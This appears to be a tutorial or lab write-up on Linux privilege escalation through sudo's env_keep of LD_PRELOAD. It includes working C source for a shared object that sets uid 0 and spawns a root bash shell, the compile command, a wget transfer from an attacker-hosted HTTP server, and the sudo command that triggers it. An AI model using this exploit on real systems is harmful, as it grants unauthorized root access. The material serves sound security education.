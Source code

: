 # Background on Sudo

Sudo allows access to restricted files by temporarily elevating the privileges of the user to the `root` user. Sudo was introduced as a safer way to elevate privileges by mitigating the risks associated with unrestricted access to the root account by executing only the command as the root user.

For users to use the `sudo` command, they must be in the sudoers file located at /etc/sudoers. To edit the sudoers file, you should use the following command to open the file with 'visudo', which parses the file for syntax errors.
```
sudo visudo
```

To add or remove accounts from the sudoers file, the user has to be in the sudo group which can be arranged by using the command:

```
sudo usermod -aG sudo [username]
```

You can check your user's privileges by running the command: `sudo -l`

```
Matching Defaults entries for kayem on kali:
    env_reset, env_keep+=LD_PRELOAD

User kayem may run the following commands on kali:
    (ALL) NOPASSWD: /usr/bin/find
    (ALL) NOPASSWD: /usr/bin/less
    (ALL) NOPASSWD: /usr/bin/nano
```

`env_reset` is an option that defaults environment variables before running the command with sudo, unless the environment variable is added to the list of preserved variables with the `env_keep` option. In the example above, we can see that the `LD_PRELOAD` environment variable is retained when resetting the environment.

To restrict `LD_PRELOAD` from loading in arbitrary shared libraries, dynamic linkers ignore the environment variable if the real user ID (ruid) is different to the effective user ID (uid). The real user ID represents the user who executed the sudo command and the effective user ID represents the user ID under which the process is running. For instance, when running processes with sudo, the ruid will be 1000 but the uid will be 0 (root) so the environment variable will be ignored. 

# Practical

Using the `sudo -l` command, I discover that the user `kayem` has access to three programs: find, less, and nano. We can abuse the `LD_PRELOAD` environment variable by uploading the following C program to spawn a root shell.

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
  unsetenv("LD_PRELOAD");
  setgid(0);
  setuid(0);
  system("/bin/bash");
}
```
The program can then be compiled into an object file with the following gcc command:
```
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```
Once compiled, we can host a python3 HTTP server to transfer the object file from our machine to the target machine. We can start an HTTP server with the command:
```
sudo python3 -m http.server 8000
```
And download the file on our target machine.
```
wget http://[IP address]:8000/shell.so
```

Finally, we run the following command to spawn our root shell.

```
sudo LD_PRELOAD=/home/kayem/shell.so find
```

This command runs the "find" program with sudo rights so thus the whole command is run with sudo rights and then the LD_PRELOAD environmental variable is set to the specified path.
